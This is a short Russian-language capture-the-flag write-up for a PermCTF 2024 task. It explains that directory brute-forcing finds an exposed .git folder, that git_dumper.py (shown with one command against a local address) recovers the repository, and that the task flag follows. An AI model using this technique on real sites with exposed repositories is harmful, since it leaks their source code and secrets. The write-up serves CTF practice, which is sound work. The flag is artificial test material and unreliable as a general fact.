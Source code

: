 # Дамплинги, Морти!
## Описание
![Описание задания](https://raw.githubusercontent.com/EogoK/permctf2024_writeup/refs/heads/main/photos/morty.jpg)


## Решение 

1. Брут директорий по словарю wordlist

2. 
```
git_dumper.py:
python3 git_dumper.py http://127.0.0.1:8080/.git /tmp/webs

[-] Already downloaded http://127.0.0.1:8080/.git/COMMIT_EDITMSG
```

3. Переходим по пути в файл

## Ресурсы

https://github.com/arthaud/git-dumper/

## Флаг
PermCTF{60j2qn017e4e}